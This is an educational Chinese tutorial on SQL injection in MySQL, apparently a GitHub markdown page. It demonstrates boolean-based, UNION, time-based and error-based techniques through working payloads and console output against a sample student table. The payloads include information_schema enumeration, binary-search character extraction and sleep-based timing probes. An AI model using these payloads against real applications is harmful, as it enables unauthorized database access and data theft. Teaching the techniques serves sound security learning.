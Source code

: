 #浅析SQL注入  

Edit by Qsaka  

----  
##SQL注入是如何产生的  
SQL注入的根本原因是不安全的操作被带入到数据库中。  
SQL注入从根源上可以分为int类型和string类型。  
1) int类型  

    "select name from students where id = $_GET['id']"
这是一个典型的未经任何过滤的注入，如果用户提交`id=-1 union select user()` ，将返回当前用户。  
2) string类型  

    "select name from students where area = '$_GET['area']'"
string型注入需要使用单/双引号闭合语句。如`area=%27 union select user()%23`。  
在此基础上衍生出报错注入，延时注入，联合注入，编码注入，  

##Boolean-based   
首先不得不讲SQL中的AND和OR  
AND 和 OR 可在 WHERE 子语句中把两个或多个条件结合起来。
AND:返回第一个条件和第二个条件都成立的记录。  
OR:返回满足第一个条件或第二个条件的记录。  
*AND和OR即为集合论中的交集和并集*  

    mysql> select * from students;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)


思考以下语句：  
1)  

    mysql> select * from students where TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)

2)  

    mysql> select * from students where FALSE ;
    Empty set (0.00 sec)


3)  

    mysql> SELECT * from students where id = 10056 and TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    +-------+-------+-----+
    1 row in set (0.00 sec)  
    
4)  
    
    mysql> select * from students where id = 10056 and FALSE ;
    Empty set (0.00 sec)  
5)  

    mysql> selcet * from students where id = 10056 or TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)  
    
6)

    mysql> select * from students where id = 10056 or FALSE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    +-------+-------+-----+
    1 row in set (0.00 sec)  

**如果你足够细心，你便会发现and 1=1 , and 1=2 即是 and TRUE , and FALSE 的变种**  
这便是最基础的boolean注入,以此为基础你可以自由组合语句，如  
字典爆破流  
`and exists(select * from ?)     //?为猜测的表名`    
`and exists(select ? from x)     //?为猜测的列名`  
截取二分流  
`and (length((select schema_name from information_schema.schemata limit 1))>?)       //判断数据库名的长度`  
`and (substr((select schema_name from information_schema.schemata limit 1),1,1)>'?')`     
`and (substr((select schema_name from information_schema.schemata limit 1),1,1)<'?')      //利用二分法判断第一个字符`  
*真爱生命，使用脚本*  

##Union  
比起多重嵌套的boolean注入，union注入相对轻松。因为，union注入可以直接返回信息而不是布尔值。  
1)  

    mysql> select name from students where id = -1 union select schema_name from information_schema.schemata;   //数据库名  
    +--------------------+
    | name               |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | rumRaisin          |
    | t3st               |
    | test               |
    +--------------------+
    6 rows in set (0.00 sec)  

2)  

    mysql> select name from students where id = -1 union select table_name from information_schema.tables where table_schema='t3st';    //表名
    +----------+
    | name     |
    +----------+
    | master   |
    | students |
    +----------+
    2 rows in set (0.00 sec)  
    
3)  
    
    mysql> select name from students where id = -1 union select column_name from information_schema.columns where table_name = 'students' ;     //列名
    +------+
    | name |
    +------+
    | id   |
    | name |
    | age  |
    +------+
    3 rows in set (0.00 sec)  

UNION 操作符用于合并两个或多个 SELECT 语句的结果集。请注意，UNION 内部的 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条 SELECT 语句中的列的顺序必须相同。所以你如果想要使用union查询来进行注入，你首先要猜测后端查询语句中查询了多少列，哪些列可以回显给用户。  
猜测列数  

    union select 1
    union select 1,2
    union select 1,2,3
    //直到页面正常显示  
    
##Time-based  

    mysql> select name from students where id = 10056 or (select * from (select(sleep(5)))A) ;
    +-------+
    | name  |
    +-------+
    | Doris |
    +-------+
    1 row in set (5.00 sec)  

显然我们经过了5s的延迟才返回了数据结果。  

我们可以结合if语句来进行延时注入  

    mysql> select name from students where id = 10056 and if (exists(select * from students),sleep(3),1) ;
    Empty set (3.00 sec)

##Error-based  
根据错误信息提取数据:)  

    mysql> select name from students where id = 10056 and (select ~0+!(select*from(select user())x)) ;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + (not((select 'root@localhost' from dual))))'

